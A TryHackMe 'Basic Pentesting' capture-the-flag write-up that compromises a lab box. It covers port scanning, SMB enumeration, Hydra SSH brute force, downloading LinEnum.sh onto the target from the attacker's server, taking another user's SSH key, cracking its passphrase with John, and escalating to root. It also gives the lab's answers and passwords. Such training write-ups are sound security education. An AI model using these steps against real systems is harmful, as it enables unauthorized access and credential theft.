

# TryHackMe Basic Pentesting writeup

As with any good start of a pentest, enumeration / recon is key! You cannot hack or pivot off of things you do not know. So lets get informed! Lets NMAP all the things!

Starting off with an NMAP using `nmap -vv -sV -Pn -A -oN nmapScan <target>`, we find many services running on our target to include.

1. Port 22/TCP - SSH
2. Port 80/TCP - The web server
3. Port 139/TCP - SMB
4. Port 445/TCP - SMB
5. Port 8009/TCP - Apache Jserv
6. Port 8080/TCP - Apache Tomcat

Looking at these results, it would seem that we have a lot to work with here. Where to begin though? There are numerous ways we can approach this, like most problem solving. In essence to the CTF we will start with the web server on port 80.

Well, that's it folks. It's a dead end! Thanks for reading. Wait... we are hackers, there has to be something on this web server. Back to enumeration it is, this time with some GoBuster. The `directory-list-2.3-medium` wordlist from [SecLists](https://github.com/danielmiessler/SecLists) will be used for this scan. So lets fire it up and see what we can get.

Ah a hidden directory, you know what they say. Fortune favors the bold! Note: the output of these scans can be found [here](./Enumeration-Results).

And here we have our first answer!
> development

Now we are making progress. Let us take a look what these text files have in store for us.

A lot of boring development talk between users `J` and `K` and at face value this seem really benign. However, for those old enough to remember the Lion King, let us take Rafiki's advice and, "Look Harder". In `dev.txt` it talks about the SMB and Apache services that we saw earlier, which one may be important. In `j.txt` we see that the user `j` has a weak password and is not following password policies. Great, but what is the user named `j`? This is our mission now, if you choose to accept this mis... alright moving on.

This section has a lot of text in it so here is a puppy:

Uuuh, hmmmm, how are we going to find this user or any user for that matter? Well, when you do not know something, pivot off of something you do know. We fleshed out the hidden directory, so nothing more can we gain here. However, there is other services running on this server that can be revisited. SSH, SMB, and those two Apache services. Looking up the version numbers on [ExploitDB](https://www.exploit-db.com/) for the Apache services, yielded nothing. Looks like we might have to get our usernames through the SMB services. Lucky for us we have a magic trick up our sleeves, [enum4linux](https://github.com/CiscoCXSecurity/enum4linux). This script will allow us to enumerate information from the SMB shares and possibly find our username using `enum4linux -A <IP>`

And now we have usernames `Jan` and `Kay`, not to mention the second answer:

> Jan

Do you want usernames? Because that is how we get usernames. It looks like we got more than just usernames as there is an interesting share name on the Samba host named `anonymous`.

I do wonder if we can log in anonymously. Only one way to find out by using `smbclient //<target>/Anonymous`

Huzzah, and what is this? Someone left a note. Lets grab `staff.txt` and `cat` out the contents.

It is our old pals `Jan` and `Kay` again.

> Note: The reason I am writing up about the share that allow anonymous logins, which leads to the discovery of our two users, is to exemplify that there is more than one way of doing things. Although we did find our users during the enumeration with `enum4linux`, I think it is worth while to explore all options. Now on with the rest of the show.

So now that we are set with our users, we need to start accessing some stuff. But, the web server does not have a login system as discovered with our GoBuster results. However, we do have another service that we can utilize, SSH. "But what about the password to access the account through SSH?" I here you ask. Well, my astute observant friend, this is where we can actually use `Hydra` to brute force our way into `Jan`'s account. Why `Jan` and not `Kay`? because if you recall, she does not follow password policy written in `j.txt`. Using `hydra -l jan -P rockyou.txt <target> ssh` this should not be too long.....

Yea I was kidding, that took some time. Pentesting is not for the impatient that is for sure.

However, in the end we got our password and the answer to the third question:
> armando

Let's access stuff with `ssh jan@<target>` and the answer to the next question:

> SSH

Now that `Jan`'s account is accessible, I do not want to be `Jan` anymore, I want to be root. At this point there are numerous of avenues that we can attempt to escalate our privileges so lets find one, actually lets find all of them with [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). Just got to get it from my local machine to the victim machine using a python server using `python3 -m http.server <port>` in the directory `LinEnum.sh` is located in and using `wget http://<localip>:<port>/LinEnum.sh` from `Jan`'s account.

Simple as... wait, something is not quite right

I think I just successfully failed here... hmmm....

They must not trust this `Jan` person very much. I doubt they would even be a sudo user, but let's try:

Yea did not think so. There goes anything to do with sudo. Maybe we can utilize `find / -perm -u=s -type f 2>/dev/null` and find a vulnerable SUID Binary running we can use with the help of [GTFOBins](https://gtfobins.github.io/). One of the binaries stands out, `vim.basic`.

Following the GTFOBins procedures in regards to vim, did not work. So without a proper binary or sudo privileges to exploit, it looks like we are at a lost. Too secure for me.

Wait, wasn't there a second user on the server? Remember `Kay`? We need to check the `/home/` directory... Lo and behold she does exist.

I spy with my little eye two interesting things, `pass.bak` and `.ssh/`. Well we know that we will not be able to read or write to `pass.bak` since the only one who can read and write to the file is the user `Kay` based on permissions. However, we have another avenue to explore. It is possible that `Kay` has SSH keys we can aggressively "borrow" from....

That's the stuff. Let's grab the contents of that file and see if we can't use it for ourselves.

Simply copy paste the contents into a file on the local machine and use `chmod 600 <file>` than using `ssh -i <file> kay@<ip>` we should be good... to... ugh, another hurdle. `Kay` has a passphrase with her SSH key.

This looks like a job for `ssh2john`, a script that separates the passphrase hash from the SSH key using `ssh2john <sshKeyFile> > <hashTextFile>` to be attempted to be cracked by `John`. The next step is to actually crack the hash using `john --wordlist=rockyou.txt <hashTextFile>` to eventually get...

Oof. `beeswax` is not a very secure passphrase, but that is ok. We can now use this to enter into `Kay`'s account and see what we can do there. First thing to do is obviously look in the immediate area of the home directory of `Kay` and look what we found...

And now we have the final answer:

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$

Again, I do not want to be `Kay`, I want to be root. First lets check if we are even part of the `sudousers` is in the first place, now that we have a passwords.

At this point `LinEnum.sh` is no longer needed, although still a good idea to further exploit the machine. However, since I have a password and can use sudo I can simply just `sudo su` right into root, and that is in fact what I am going to do.

And just like that the box is under our full control. There is one more question on TryHackMe Basic Pentesting room in which I will explain here:

#### If you have found another user, what can you do with this information?

As you can see we do not have some basic privileges as the account `jan`. We can see this as it was difficult to collect (wget) LinEnum.sh from my local python server and write to a file (or any file) while we are Jan. So long as we do not have the privileges, we have to become `Kay`. Since this is just another user that we will try to compromise, this is called horizontal privilege escalation, meaning that we will attempt to compromise and perform actions based on a different user. This is not to be confused with vertical privilege escalation, where an elevation of privileges are to root or administrator takes place. Although horizontal can become vertical escalation if the right permissions and rights are given to the user we are horizontally escalating to. We can use horizontal privilege to become the user `kay` and perform different actions, hopefully more than Jan can to reach the coveted root account.

Thanks for reading!
